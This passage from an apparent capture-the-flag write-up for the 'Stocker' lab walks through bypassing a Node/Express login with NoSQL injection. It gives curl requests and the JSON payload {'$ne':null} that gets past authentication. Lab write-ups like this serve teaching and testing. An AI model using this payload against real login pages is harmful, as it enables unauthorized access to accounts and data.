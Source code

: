 When we visit <http://dev.stocker.htb/> we are redirected to [/login](http://dev.stocker.htb/login).

![Dev login](dev-login.png)

#### Authentication Bypass

The presence of a login page probably means that the site uses a database solution like SQL or NoSQL. With this in mind, we'll capture a login request and manually check for injection vulnerabilities with [BurpSuite](https://portswigger.net/burp/communitydownload).

![Login request](burp-proxy.png)

The captured login request uses the parameters _username_ and _password_ in the request body. After some manual testing we conclude that these parameters are _probably_ not vulnerable to generic SQL injection. Since this web app likely has a NodeJS/Express backend, we must also consider using a JSON request body. Once we start sending some generic type juggling JSON payloads, we notice that an empty object `{}` in either field will trigger a server error while any other type passes fine.

> We can easily change the content type and request body format with the **Content Type Converter** extension for BurpSuite.
{:.prompt-tip}

```bash
# bryan@red_team (bash)
ct='Content-Type: application/json' # make sure the server processes the body as JSON
curl $vhost[2]/login -i -H $ct -d '{"username":{},"password":"pass"}' # HTTP 502
curl $vhost[2]/login -i -H $ct -d '{"username":"demo","password":{}}' # HTTP 502
```
{:.nolineno}

This reminds us of a popular **NoSQL injection** payload which uses JSON objects to bypass authentication. More reading on this topic [here](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

```json
{"username":{"$ne":null},"password":{"$ne":null}}
```
{:.nolineno}

Sure enough, this payload triggers a response redirecting us to [/stock](http://dev.stocker.htb/stock) indicating that the bypass was successful.

```bash
# bryan@red_team (bash)
ct='Content-Type: application/json' # make sure the server processes the body as JSON
curl $vhost[2]/login -i -H $ct -d '{"username":{"$ne":null},"password":{"$ne":null}}'
```
{:.nolineno}

#### Authenticated

Let's check out `/stock`{:.filepath} with the same *connect.sid* cookie.

![Dev site](dev-stock.png)
